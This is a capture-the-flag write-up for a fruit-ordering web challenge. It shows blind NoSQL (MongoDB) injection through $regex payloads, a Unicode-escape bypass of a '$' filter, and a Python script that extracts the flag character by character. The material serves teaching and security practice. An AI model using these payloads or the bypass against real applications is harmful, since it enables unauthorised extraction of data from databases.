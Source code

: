 # Fruit-Salad CTF Write-Up

## Challenge Overview
In this CTF we are provided with a web page and the next hint: "This new web application to order fruit salads is really nice, I hope I can add mango into mine."

We go on the page and see some simple check button page to select fruits and a button with the text order.

## Initial Reconnaissance
We will start by analyzing the frontend code of the page by opening the console:
![alt text](image.png)

From the picture we see that we have some JavaScript client-side code that takes the selected fruits and sends a POST request to the '/order' endpoint, sending the selected fruits in the body.

## Testing the API
We will open Postman and try different inputs to see how that endpoint reacts.

First we will try sending a fruit to the backend:
![alt text](image-1.png)

The server responds that we should eat more fruits.

Let's try sending more fruits...
![alt text](image-2.png)

When we send 5 fruits we get a different message: "Enjoy your salad".

Basically when we send 5 fruits rather than fewer, we get different messages. This is a key point in solving the problem.

## Understanding the Hint
Let's go back to the hint: "I hope I can add mango into mine". "Mango" is an allusion to "Mongo", so we will try NoSQL injection.

We know that the flag starts with "CTF{" and ends with "}", so in order to get the flag we will try to find every letter one by one.

## The Exploit Approach
The idea is that we will send 4 fruits and one NoSQL injection prompt containing the "CTF{" + one letter at a time.

For example, let's say the first 5 characters in the flag are: "CTF{a"
If we send a JSON like:
```json
{
    "fruits": [
        "Grape",
        "Grape",
        "Grape",
        {"$regex": "^CTF{a"},
        "Grape"
    ]
}
```

This will return the message "Enjoy your salad" because it will find a match for "CTF{a" in the database.

Otherwise if we send:
```json
{
    "fruits": [
        "Grape",
        "Grape",
        "Grape",
        {"$regex": "^CTF{b"},
        "Grape"
    ]
}
```

It will return that we should eat more fruits because it won't find the 4th "fruit" and only count 4 fruits instead of 5.

## Bypassing Security Measures
Now, we have to construct the exact exploit for the NoSQL injection, so we will try to send different payloads with Postman.

![alt text](image-3.png)

Here we see the message: "Nice try, hacker", so we have to find other payloads in order to bypass the system.

We will try to escape the "$" character, as this is the character that causes us problems. To do this, instead of "$" we will try its Unicode value "\u0024".

The payload will look like this:
![alt text](image-4.png)

As we see, now the message changes, which means that the "$" character escapes detection, so now we can try to find the flag letter by letter or digit by digit in order to get the full flag. If a letter or digit is correct then the message "Enjoy your salad" will be displayed, otherwise the message displayed will be that we should eat more fruits.

## Automating the Exploit
To get the flag I constructed a Python script that tries every letter and number. When the message is "Enjoy your salad", it means that the letter or number is correct, so we memorize it into the variable where we construct the flag and go to the next character.

Running this script (see the exploit.py file in this folder) gives us the complete flag character by character.
![alt text](image-5.png)

## Exploit

```python
import string
import requests

url = "<site-url>/order"

unicode_char = string.ascii_letters + string.digits + "}"
flag = "CTF{"

while True:
    ok = False
    for char in unicode_char:
        req = '''
            {
    "fruits": [
        "Grape",
        "Grape",
        "Grape",
        {"\\u0024regex": "^''' + flag + char + '''"},
        "Grape"
    ]
}
        '''
        http_res = requests.post(url=url,data=req,headers={"Content-Type": "application/json"})
        response = http_res.json().get("message","")
        print(f"{flag + char}, {response}")
        if(response == "Enjoy your salad!"):
            flag+=char
            ok = True
            print(f'Partial flag : {flag}')
            if(char == "}"):
                print(f'Flag found: {flag}')
                exit(0)
            break

```

## Key Takeaways
1. The hint ("mango") pointed to MongoDB/NoSQL injection
2. Understanding the response behavior was crucial (5 fruits vs fewer)
3. Bypassing security filters by using Unicode escape sequences
4. Using regex pattern matching to extract the flag character by character

This challenge demonstrates a common NoSQL injection vulnerability and how improper input validation can lead to data extraction.
